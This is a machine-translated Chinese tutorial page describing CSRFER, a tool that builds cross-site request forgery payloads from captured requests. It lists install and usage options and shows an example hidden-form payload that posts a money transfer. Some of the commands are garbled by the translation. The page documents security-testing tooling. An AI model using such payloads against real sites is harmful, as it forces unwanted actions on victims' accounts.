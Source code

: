 # CSRFER:基于易受攻击的请求生成 CSRF 有效负载的工具

> 原文：<https://kalilinuxtutorials.com/csrfer/>

[![CSRFER : Tool To Generate CSRF Payloads Based On Vulnerable Requests](img//67ade269385010d94b14a4310d53a101.png "CSRFER : Tool To Generate CSRF Payloads Based On Vulnerable Requests")](https://1.bp.blogspot.com/-F1O-U9b7FZE/X4gjj9WNvfI/AAAAAAAAHyw/wkLYg2oDvmwfB-J2qyc2A2DngxNvYrvtwCLcBGAsYHQ/s728/CSRFER%25281%2529.png)

CSRFER 是一个基于易受攻击的请求生成 csrf 有效负载的工具。它解析提供的请求以生成表单或获取请求。然后，可以将有效负载嵌入到 html 模板中。

**安装**

**npm install -g csrfer**

**用途**

**用法:** csrfer【选项】

**选项:**
–版本显示版本号
-r，–要使用的请求文件的请求路径
-m，–Mode 模式生成代码。可用选项:表单、获取。(默认为 form)
-a，–Auto submit 页面加载时自动提交请求
-s，–Show 显示表单输入(仅适用于表单模式)
-o，–Output 将有效负载输出到指定文件，而不是 STDOUT
-t，–html 模板页面的模板路径。使用占位符{{CONTENT}}指定
插入代码的位置(以 html 格式，而不是 JS 格式)
-T，–default template 如果您希望将代码插入默认 html 页面，请使用此选项。
-h，–help Show help

**示例:**
CSR fer-r req . txt-m form-a 自动提交表单请求
csrfer -r req.txt -m form -s 生成并显示要手动提交的表单
CSR fer-r req . txt-m fetch-t my _ template . html 生成一个获取请求并使用提供的模板
页面

**示例输出**

```
<!DOCTYPE html>
<html>

<head>
  <title>This is Hello World page</title>
</head>

<body>
  <h1>Hello World</h1>

  <form id="csrf" name="csrf" action="http://localhost:8000/1.php" method="POST"
    enctype="application/x-www-form-urlencoded"><input id='destination' name='destination' type='hidden'
      value='123-123123-123' /><br><input id='amount' name='amount' type='hidden' value='50&#x20AC;' /><br><input
      type='submit' value='submit'></form>
</body>

</html>
```

[**Download**](https://github.com/luisfontes19/CSRFER)